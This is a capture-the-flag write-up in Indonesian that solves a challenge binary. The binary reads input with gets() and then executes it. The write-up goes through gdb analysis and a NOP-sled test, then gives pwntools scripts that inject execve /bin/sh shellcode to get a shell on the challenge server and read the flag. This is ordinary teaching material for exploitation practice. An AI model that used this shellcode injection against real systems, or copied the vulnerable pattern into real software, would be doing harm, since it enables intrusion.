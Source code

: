 Sebuah server yang meminta kalian untuk menginput lokasi...

```bash
nc 103.157.96.13 9991
```

Download : https://mega.nz/#!IlpgCTqI!i2YWasJXAU55CrbXqubPmUJgOwKMhKAq6mmQwH0enIA

#### Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    printf("Coba ketik lokasi anda sekarang : \n");
    char target[256];
    gets(target);
    printf("Wah keren, mimin tinggal di Samarinda dong :D\n");
    ((void(*)())target)();
    return 0;
}
```

```bash
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000401162 <+0>:     push   rbp
   0x0000000000401163 <+1>:     mov    rbp,rsp
   0x0000000000401166 <+4>:     sub    rsp,0x110
   0x000000000040116d <+11>:    mov    rax,QWORD PTR [rip+0x2eec]
   0x0000000000401174 <+18>:    mov    ecx,0x0
   0x0000000000401179 <+23>:    mov    edx,0x2
   0x000000000040117e <+28>:    mov    esi,0x0
   0x0000000000401183 <+33>:    mov    rdi,rax
   0x0000000000401186 <+36>:    call   0x401070 <setvbuf@plt>
   0x000000000040118b <+41>:    mov    rax,QWORD PTR [rip+0x2ede]
   0x0000000000401192 <+48>:    mov    ecx,0x0
   0x0000000000401197 <+53>:    mov    edx,0x2
   0x000000000040119c <+58>:    mov    esi,0x0
   0x00000000004011a1 <+63>:    mov    rdi,rax
   0x00000000004011a4 <+66>:    call   0x401070 <setvbuf@plt>
   0x00000000004011a9 <+71>:    mov    rax,QWORD PTR [rip+0x2ed0] 
   0x00000000004011b0 <+78>:    mov    ecx,0x0
   0x00000000004011b5 <+83>:    mov    edx,0x2
   0x00000000004011ba <+88>:    mov    esi,0x0
   0x00000000004011bf <+93>:    mov    rdi,rax
   0x00000000004011c2 <+96>:    call   0x401070 <setvbuf@plt>
   0x00000000004011c7 <+101>:   call   0x401060 <getegid@plt>
   0x00000000004011cc <+106>:   mov    DWORD PTR [rbp-0x4],eax
   0x00000000004011cf <+109>:   mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004011d2 <+112>:   mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004011d5 <+115>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004011d8 <+118>:   mov    esi,ecx
   0x00000000004011da <+120>:   mov    edi,eax
   0x00000000004011dc <+122>:   mov    eax,0x0
   0x00000000004011e1 <+127>:   call   0x401040 <setresgid@plt>
   0x00000000004011e6 <+132>:   lea    rdi,[rip+0xe1b]        # 0x402008
   0x00000000004011ed <+139>:   call   0x401030 <puts@plt>
   0x00000000004011f2 <+144>:   lea    rax,[rbp-0x110]
   0x00000000004011f9 <+151>:   mov    rdi,rax
   0x00000000004011fc <+154>:   mov    eax,0x0
   0x0000000000401201 <+159>:   call   0x401050 <gets@plt>
   0x0000000000401206 <+164>:   lea    rdi,[rip+0xe23]        # 0x402030
   0x000000000040120d <+171>:   call   0x401030 <puts@plt>
   0x0000000000401212 <+176>:   lea    rdx,[rbp-0x110]
   0x0000000000401219 <+183>:   mov    eax,0x0
   0x000000000040121e <+188>:   call   rdx
   0x0000000000401220 <+190>:   mov    eax,0x0
   0x0000000000401225 <+195>:   leave  
   0x0000000000401226 <+196>:   ret    
End of assembler dump.
gdb-peda$ 
```

kalo dari source sudah pasti kena buffer overflow, cuman harus ngereplace `((void(*)())target)();` biar dapat `shell` interactive karena flagnya ga ada didalam binary maupun sourcenya, pertama cari dulu jumlah buffer nya, kalo berdasarkan hasil disassamble seharusnya akan terkena buffer overflow kalo input lebih dari `sub    rsp,0x110` atau sama dengan `272` kalo dalam desimal. untuk meyakinyanya coba di gdb, coba pasang breakpoint `main+176` untuk memeriksa kondisi stack sesudah ngasi input

```bash
gdb-peda$ pattern create 0x110
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A'
gdb-peda$ r
```
dengan memasukan inputan sebesar `0x110` semua stack ter-replace, tinggal mencari jumlah buffernya

```bash
gdb-peda$ pattern search
No register contains pattern buffer
No register points to pattern buffer
Pattern buffer found at:
0x00007fffffffdcb1 : offset    0 - size  272 ($sp + 0x1 [0 dwords])
References to pattern buffer found at:
0x00007fffffffdc28 : 0x00007fffffffdcb1 ($sp + -0x88 [-34 dwords])
gdb-peda$ 
```

berdasarkan
```bash
   0x401201 <main+159>: call   0x401050 <gets@plt>
   0x401206 <main+164>: lea    rdi,[rip+0xe23]        # 0x402030
   0x40120d <main+171>: call   0x401030 <puts@plt>
=> 0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
   0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave
```
pada ` 0x40121e <main+188>: call   rdx` nilai `rdx` nantinya akan dipanggil sebagai sebuah fungsi yang bersumber dari inputan, jadi harus nyari shellcode yang nantinya dipanggil melalui `rdx` , untuk mengujinya bisa pake perintah `NOP` atau `NOPSLED` dalam hexa `0x90`, perintah `NOP` tidak mengeksekusi apa2 hanya untuk memastikan kalo nilai `rdx` nantinya memanggil `NOP` atau `0x90`

```bash
gdb-peda$ b *main+176
Breakpoint 1 at 0x401212
gdb-peda$ r <<< `python2 -c "print '\x90' * 8 + 'A' * (0x110 - 8) + '\xb0\xdc\xff\xff\xff\x7f'"`
```

maksudnya ngasi inptan `8 NOP + (110-8) A` di alamat `0x7fffffffdcb0` alamat `0x7fffffffdcb0`  merupakan 8 byte blok pertama dari stack, jadinya nantinya `rdx` akan memanggil alamat `0x7fffffffdcb0` yang isinya `NOP`

```bash
   0x401201 <main+159>: call   0x401050 <gets@plt>
   0x401206 <main+164>: lea    rdi,[rip+0xe23]        # 0x402030
   0x40120d <main+171>: call   0x401030 <puts@plt>
=> 0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
   0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave
```

setelah mengisi input, nilai `rdx` akan diambil dari `[rbp-0x110]` kalo dicek nilainya

```bash
gdb-peda$ x/x $rbp-0x110
0x7fffffffdcb0: 0x90
gdb-peda$ x/i $rbp-0x110
   0x7fffffffdcb0:      nop
gdb-peda$ 
```

setelah dilanjutkan beberapa instruksi 

```bash
   0x40120d <main+171>: call   0x401030 <puts@plt>
   0x401212 <main+176>: lea    rdx,[rbp-0x110]
   0x401219 <main+183>: mov    eax,0x0
=> 0x40121e <main+188>: call   rdx
   0x401220 <main+190>: mov    eax,0x0
   0x401225 <main+195>: leave  
   0x401226 <main+196>: ret    
   0x401227:    nop    WORD PTR [rax+rax*1+0x0]
No argument
```
Nilai `=> 0x40121e <main+188>: call   rdx` akan memanggil `0x401227:    nop    WORD PTR [rax+rax*1+0x0]`, untuk membuktinya bisa pake perintah `x/8i` artinya lihat 8 Intruksi berikutnya

```bash
gdb-peda$ x/8i $rdx
   0x7fffffffdcb0:      nop
   0x7fffffffdcb1:      nop
   0x7fffffffdcb2:      nop
   0x7fffffffdcb3:      nop
   0x7fffffffdcb4:      nop
   0x7fffffffdcb5:      nop
   0x7fffffffdcb6:      nop
   0x7fffffffdcb7:      nop
gdb-peda$ 
```

Tinggal nyari Shellcode linux 64 Bit yang ukuranya kecil untuk ngedapatin interaktive shell nya

```
http://shell-storm.org/shellcode/files/shellcode-806.php
```

dan buat Exploitnya

```python
import struct

repl = 0x7fffffffdcb0
repl_byte = struct.pack("<Q", repl)

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
fuzz = shellcode + 'A' * (0x110 - len(shellcode)) + repl_byte

print fuzz
```

coba di GDB

```bash
gdb-peda$ x/13i $rdx
   0x7fffffffdcb0:      xor    eax,eax
   0x7fffffffdcb2:      movabs rbx,0xff978cd091969dd1
   0x7fffffffdcbc:      neg    rbx
   0x7fffffffdcbf:      push   rbx
   0x7fffffffdcc0:      push   rsp
   0x7fffffffdcc1:      pop    rdi
   0x7fffffffdcc2:      cdq    
   0x7fffffffdcc3:      push   rdx
   0x7fffffffdcc4:      push   rdi
   0x7fffffffdcc5:      push   rsp
   0x7fffffffdcc6:      pop    rsi
   0x7fffffffdcc7:      mov    al,0x3b
   0x7fffffffdcc9:      syscall 
gdb-peda$ c
Continuing.
process 14226 is executing new program: /usr/bin/dash
```

kalo di banding kan dengan http://shell-storm.org/shellcode/files/shellcode-806.php 13 intruksi akan sama persis, dan lagi ketika proses di lanjutkan gdb mendeteksi ada proses baru yang memanggil program `/usr/bin/dash` artinya shellcode berhasil. tetapi proses tidak berhasil jika dijalankan diluar gdb, untuk itu harus try and error untuk nyari alamat yang pas sebagai pengganti alamat  `0x7fffffffdcb0`

```python
from pwn import *
import struct

repl = 0xf7edd900
repl_byte = struct.pack("<Q", repl)

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
fuzz = shellcode + 'A' * (0x110 - len(shellcode)) + repl_byte
#conn = remote('103.157.96.13',9991)
conn = process('./chal4')
conn.sendline(fuzz)
conn.interactive()
```

hasilnya

```bash
$ python2 solve.py             
[+] Starting local process './chal4': pid 14416
[*] Switching to interactive mode
Coba ketik lokasi anda sekarang : 
Wah keren, mimin tinggal di Samarinda dong :D
$ id
uid=1000(kulikode) gid=1000(kulikode) groups=1000(kulikode),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),142(kaboxer)
```

Kalo dijalanin di remote server
```bash
 python2 solve.py
[+] Opening connection to 103.157.96.13 on port 9991: Done
[*] Switching to interactive mode
Coba ketik lokasi anda sekarang : 
Wah keren, mimin tinggal di Samarinda dong :D
$ cat flag
CTFR{f1r5t_t1m3_d3pl0y_5h3ll_c0d3???}
```

Flag

```
CTFR{f1r5t_t1m3_d3pl0y_5h3ll_c0d3???}
```

